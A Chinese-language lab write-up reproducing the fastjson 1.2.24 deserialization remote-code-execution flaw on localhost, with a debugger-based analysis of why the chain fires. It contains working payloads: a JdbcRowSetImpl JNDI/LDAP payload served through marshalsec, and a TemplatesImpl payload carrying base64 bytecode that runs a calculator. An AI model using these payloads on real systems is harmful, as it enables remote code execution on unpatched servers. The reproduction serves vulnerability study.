



# fastjson 1.2.24反序列化漏洞复现

## 先写一个正常的使用 fastjson的web服务

我们使用 springboot创建  

  

主要是pom.xml 里面要添加fastjson  
fastjson要求小于等于 1.2.24  
```xml
    <dependency>
        <groupId>com.alibaba</groupId>
        <artifactId>fastjson</artifactId>
        <version>1.2.23</version>
    </dependency>
```

### 简单写个路由解析

controller.Login.java  
```java
@Controller
public class Login {
    @RequestMapping(value = "/fastjson", method = RequestMethod.POST)
    @ResponseBody
    public JSONObject test(@RequestBody String data) {
        JSONObject obj = JSON.parseObject(data);
        JSONObject result = new JSONObject();
        result.put("code", 200);
        result.put("message", "success");
        result.put("data", "Hello " + obj.get("name"));
        return result;
    }
}

```

model.User.java  

```java

public class User {
    public String name;
    public int age;
    public String id_card;

    public String getName() {
        return name;
    }

    public void setName(String name) {
        this.name = name;
    }

    public int getAge() {
        return age;
    }

    public void setAge(int age) {
        this.age = age;
    }

    public String getId_card() {
        return id_card;
    }

    public void setId_card(String id_card) {
        this.id_card = id_card;
    }


}

```

controller.Login 是一个控制器是一个路由用于解析请求  
model.User 是一个用户类 包含一些属性用于fastjson与数据对应解析  


### 请求

这里发送的数据是这样的  

```json
{
	"@type": "com.example.demo.model.User",
	"name": "Recar",
	"age": 22,
	"id_card": "12334567"
}
```

@type 是用于fastjson找到数据对应的类 下面的是User的属性值  
既然要实例一个用户 并且有属性值 就要调用 set get方法  
但是不是每个get方法都会被调用 只要满足特定条件的  


我们这里可以看到成功解析了数据  
## 攻击 ldap

## 使用  marshalsec 构建 ldap服务  
git 先下载下来
`git clone git@github.com:mbechler/marshalsec.git`  

mvn 编译成jar包 (mvn最好配置好国内的比如阿里的maven源)  

`mvn clean package -DskipTests`  

最后target目录下输出  `marshalsec-0.0.3-SNAPSHOT-all.jar`  

启动  `java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://127.0.0.1:8081/#Exploit`  

这里是启动了个ldap 然后我们需要构建个简单的web服务返回exploit  

  


## 编写Exploit

执行命令运行计算器  
```java
public class Exploit {
    public Exploit (){
        try{
            Runtime.getRuntime().exec("calc");
        }catch (Exception e){
            e.printStackTrace();
        }
    }
    public static void  main(String[] argv){
        Exploit e = new Exploit();
    }
}

```
先直接运行 弹出计算器 在out目录下看到 Exploit.class  

## 启动简单web服务

简单实用python创建  
这个是python2的命令  
`python -m SimpleHTTPServer 8081`  

这个命令要在 Exploit.class 目录下执行 端口与上面marshalsec执行命令的端口一致  

  


## postman发送请求

```json
{
	"@type":"com.sun.rowset.JdbcRowSetImpl",
	"dataSourceName":"ldap://localhost:1389/Exploit",
	"autoCommit":true
}
```

  


## 分析

fastjson 反序列化的时候会自动调用set get方法  
我们找到一个在调用的地方那里可控的操作  
比如就是 jdni的 ldap  
jndi加载远程服务器上的恶意class文件在fastjson机器上执行  


## 基于TemplatesImpl的利用链

payload  
```json
{"@type":"com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl","_bytecodes":["yv66vgAAADEALAoABgAeCgAfACAIACEKAB8AIgcAIwcAJAEABjxpbml0PgEAAygpVgEABENvZGUBAA9MaW5lTnVtYmVyVGFibGUBABJMb2NhbFZhcmlhYmxlVGFibGUBAAR0aGlzAQANTHBlcnNvbi9UZXN0OwEACkV4Y2VwdGlvbnMHACUBAAl0cmFuc2Zvcm0BAKYoTGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007TGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvZHRtL0RUTUF4aXNJdGVyYXRvcjtMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOylWAQAIZG9jdW1lbnQBAC1MY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTsBAAhpdGVyYXRvcgEANUxjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL2R0bS9EVE1BeGlzSXRlcmF0b3I7AQAHaGFuZGxlcgEAQUxjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7AQByKExjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvRE9NO1tMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOylWAQAIaGFuZGxlcnMBAEJbTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjsHACYBAApTb3VyY2VGaWxlAQAJVGVzdC5qYXZhDAAHAAgHACcMACgAKQEABGNhbGMMACoAKwEAC3BlcnNvbi9UZXN0AQBAY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL3J1bnRpbWUvQWJzdHJhY3RUcmFuc2xldAEAE2phdmEvaW8vSU9FeGNlcHRpb24BADljb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvVHJhbnNsZXRFeGNlcHRpb24BABFqYXZhL2xhbmcvUnVudGltZQEACmdldFJ1bnRpbWUBABUoKUxqYXZhL2xhbmcvUnVudGltZTsBAARleGVjAQAnKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL1Byb2Nlc3M7ACEABQAGAAAAAAADAAEABwAIAAIACQAAAEAAAgABAAAADiq3AAG4AAISA7YABFexAAAAAgAKAAAADgADAAAADwAEABAADQARAAsAAAAMAAEAAAAOAAwADQAAAA4AAAAEAAEADwABABAAEQABAAkAAABJAAAABAAAAAGxAAAAAgAKAAAABgABAAAAFQALAAAAKgAEAAAAAQAMAA0AAAAAAAEAEgATAAEAAAABABQAFQACAAAAAQAWABcAAwABABAAGAACAAkAAAA/AAAAAwAAAAGxAAAAAgAKAAAABgABAAAAGgALAAAAIAADAAAAAQAMAA0AAAAAAAEAEgATAAEAAAABABkAGgACAA4AAAAEAAEAGwABABwAAAACAB0="],"_name":"a.b","_tfactory":{ },"_outputProperties":{ }}
```


`com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl`  

使用这个属性 `_bytecodes` 是私有属性  

_bytecodes 里面是获取base64编码后的Exploit类 执行调用计算器的class  


发poc后断点调试  


JavaBeanInfo build方法  

  

程序会使用 JavaBeanInfo方法对传入的josn字符串进行解析  
创建了一个 fidldlist数组存储后续将要处理的目标类的setter方法及特定条件的getter方法  
调用getter是有条件的 条件就是如下  

`Field[] declaredFields = clazz.getDeclaredFields();`  
getDeclaredFields 获得某个类的所有声明的字段，即包括public、private和proteced，但是不包括父类的申明字段  

  


会把set get都解析一遍  
然后到这个里判断选择要调用的方法  

默认创建的都不会走这个


但是 TemplatesImpl的 getOutputProperties的方法会进入到这个判断  

## 进入调用get的条件

```java
 String methodName = method.getName();
if (
     methodName.length() >= 4 && // 方法名长度要大于等于4
     !Modifier.isStatic(method.getModifiers()) &&  // 不是静态方法
     methodName.startsWith("get") &&  // 以get字符串开头
     Character.isUpperCase(methodName.charAt(3)) &&  // 第4个字符要是大写字母
     method.getParameterTypes().length == 0 &&  // 方法不能有参数传入

     (Collection.class.isAssignableFrom(method.getReturnType()) || 
     Map.class.isAssignableFrom(method.getReturnType()) || 
     AtomicBoolean.class == method.getReturnType() || 
     AtomicInteger.class == method.getReturnType() || 
     AtomicLong.class == method.getReturnType())) 
     // 继承自Collection || Map || AtomicBoolean || AtomicInteger || AtomicLong
          

```

此getter方法不能有setter方法  
前面会把set get都解析出来  


```java
fieldInfo = getField(fieldList, propertyName);
/*
Field[] getFields()
这个方法会返回当前类的以及其所有父类、父类的父类中所有public类型的字段
*/
if (fieldInfo == null) {
    if (propertyNamingStrategy != null) {
        propertyName = propertyNamingStrategy.translate(propertyName);
    }

    add(fieldList, new FieldInfo(propertyName, method, (Field)null, clazz, type, 0, 0, 0, annotation, (JSONField)null, (String)null));
}
```

  


  

## 传入的都是有下划线的怎么最后没有的  

对key进行处理 smartMatch方法  
  

对下划线替换为空  

  


设置value值 _bytecodes  


调用 getOutputProperties  
  

## 为什么传入的payload要求name不能是空  
_name 不能是空的不然就直接返回了  

  


_bytecodes不能是空的

  


执行 poc  
实例化这个class  


需要注意的是有私有属性才能写 `Feature.SupportNonPublicField`  
不然我使用一个正常的数据没有私有属性的会报错  

  

但是使用 ldap方式是不需要的  


## 基于jndi ldap方法的攻击链  

因为我本机的jdk不满足 rmi的条件 于是使用的ldap的方式来复现  

ldap的方式是使用外部加载class的形式  


payload  

```json
{
	"@type":"com.sun.rowset.JdbcRowSetImpl",
	"dataSourceName":"ldap://localhost:1389/Exploit",
	"autoCommit":true
}
```

断点调试  

解析上传的json  
  


语法解析  
  


   


  

  


  


调用链  

  

可以清晰的看到从 testVuln 接口进入 parse解析json对象后解析字段 设置字段值  
使用invoke动态调用set方法  
可以看到 setAutoCommit的方法调用 这里触发漏洞  
然后是对expoit类的实例化  
远程调用这个expolit的类来实现执行  
最后执行exec的方法  


## 总结

1. 基于TemplatesImpl的利用链 使用的在fastjson会先把实例对象的set get方法都解析出来好  
然后根据指定的过滤条件过滤只有符合条件的get方法才会触发  
TemplatesImpl的_outputProperties可以触发满足这个条件  
并且 TemplatesImpl 有个私有成员 _bytecodes 只要解析的时候允许私有变量就可以触发  
可控的传入 base64编码的 Expolit.class  
后面会解析触发 getOutputProperties方法 来实现rce  
使用 get条件

2. rmi 或者ldap方式  
是使用基于远程加载类的方式 jndi有个setAutoCommit方式设置为True后会自动调用setValue方法  
使用set方法  

